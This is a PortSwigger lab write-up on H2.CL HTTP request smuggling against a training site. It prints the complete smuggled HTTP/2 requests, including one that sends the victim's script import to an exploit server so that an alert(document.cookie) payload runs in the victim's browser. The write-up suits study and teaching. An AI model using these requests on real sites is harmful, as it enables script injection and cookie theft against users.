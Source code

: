 # H2.CL request smuggling

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling), you'll learn: H2.CL request smuggling! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

> Note:
>  
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214172445.png)

**View source page:**
```html
[...]
<script type="text/javascript" src="/resources/js/analyticsFetcher.js"></script>
[...]
```

**As you can see, it loaded a JavaScript file from `/resources/js/analyticsFetcher.js`:**
```js
setTimeout(() => {
    const script = document.createElement('script');
    document.body.appendChild(script);
    uid = Math.random().toString(10).substr(2, 10);
    script.src = '/resources/js/analytics.js?uid=' + uid;
}, 5000);
```

What this JavaScript will do is:

- After 5 seconds, create a new `<script>` element
- Append it to the HTML body
- Generate a pseudo-random user ID
- Finally, **set the `<script>` element's `src` attribute to `/resources/js/analytics.js`, and the GET parameter: generated user ID**

**Hmm... What's that `/resources/js/analytics.js` doing?**
```js
function randomString(length, chars) {
    var result = '';
    for (var i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
}
var id = randomString(16, '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ');
fetch('/analytics?id=' + id)
```

This JavaScript will:

- Generate a pseudo-random ID
- Send a GET request to `/analytics` with parameter `id`, and value pseudo-random ID

Armed with above information, we can ***try to exploit response queue poisoning, which will then import our evil JavaScript!***

In HTTP/2 (HTTP version 2), requests don't have to specify their length explicitly in a header. During downgrading, this means front-end servers often add an HTTP/1 `Content-Length` header, deriving its value using [HTTP/2's built-in length mechanism](https://portswigger.net/web-security/request-smuggling/advanced#http-2-message-length). Interestingly, HTTP/2 requests can also include their own `content-length` header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request.

The spec dictates that any `content-length` header in an HTTP/2 request must match the length calculated using the built-in mechanism, but this isn't always validated properly before downgrading. As a result, it may be possible to smuggle requests by injecting a misleading `content-length` header. Although the front-end will use the implicit HTTP/2 length to determine where the request ends, the HTTP/1 back-end has to refer to the `Content-Length` header derived from our injected one, resulting in a desync.

Therefore, we can try to smuggle HTTP request via **HTTP/2 downgrading**:

> Note: This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, we need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214174241.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214174333.png)

Then, change the request method to POST:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214174309.png)

We assume the web application's front-end is using HTTP/2, and the back-end is using CL (`Content-Length` header).

- H2.CL:

**Now, we can send the folllowing attack request:**
```http
POST / HTTP/2
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Length: 25

smuggled=yes
```

> Note: To send that request, you must disable "Update Content-Length" option in Burp Suite's Repeater
>  
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214175032.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214175050.png)

When we send the request twice, it returns a 404 status! Which means **we can confirm that the web application is vulnerable to H2.CL HTTP request smuggling!**

But, how can we escalate that vulnerability to much more critical?

**After poking around, I found something interesting:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180409.png)

When we go to `/resources/js`, it'll redirect us to `/resources/js/`.

Hmm... I wonder if can we control the host...

**Let's try to change the `Host` header to anything:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180505.png)

Oh!! We can indeed control the host!

That being said, **What if we import an evil JavaScript from the exploit server?**

**To do so, let's head over to the exploit server, and host the payload with path `/resources/js`:**
```js
alert(document.cookie);
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180720.png)

**Then, send the attack request again but with the exploit server's `Host`:**
```http
POST / HTTP/2
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources/js HTTP/1.1
Host: exploit-0afa0058031b1d5bc0ff0c4301580060.exploit-server.net
Content-Length: 25

smuggled=yes
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180851.png)

Exploit server access log:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214180910.png)

As you can see, our victim successfully imported our evil JavaScript!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214182628.png)

What the victim will see:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-12/images/Pasted%20image%2020230214181416.png)

> Note: You need to poison the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, it will fetch your payload from the exploit server but not execute it. You may need to repeat the attack several times before you get the timing right.
>  
> You could try to keep spamming the attack request.

# What we've learned:

1. H2.CL request smuggling